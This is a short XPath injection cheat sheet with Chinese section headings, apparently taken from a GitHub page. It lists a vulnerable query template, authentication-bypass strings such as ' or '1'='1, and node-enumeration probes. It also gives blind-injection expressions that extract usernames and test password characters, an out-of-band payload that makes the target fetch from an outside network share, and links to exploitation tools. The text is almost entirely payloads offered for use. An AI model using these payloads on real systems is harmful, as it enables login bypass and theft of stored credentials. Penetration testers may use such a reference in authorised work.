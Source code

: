 #### 类似sql注入
	"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"
	' or '1'='1
	' or ''='
	x' or 1=1 or 'x'='y
	/
	//
	//*
	*/*
	@*
	count(/child::node())
	x' or name()='username' or 'x'='y
	' and count(/*)=1 and '1'='1
	' and count(/@*)=1 and '1'='1
	' and count(/comment())=1 and '1'='1
	search=')] | //user/*[contains(*,'
	search=Har') and contains(../password,'c
	search=Har') and starts-with(../password,'c
#### 盲注
	字符串的大小
	and string-length(account)=SIZE_INT
	提取一个字符
	substring(//user[userid=5]/username,2,1)=CHAR_HERE
	substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
#### OOB
  	http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
#### 工具
  	https://github.com/orf/xcat
	https://github.com/feakk/xxxpwn
	https://github.com/aayla-secura/xxxpwn_smart
	https://github.com/micsoftvn/xpath-blind-explorer
	https://github.com/Harshal35/XMLCHOR
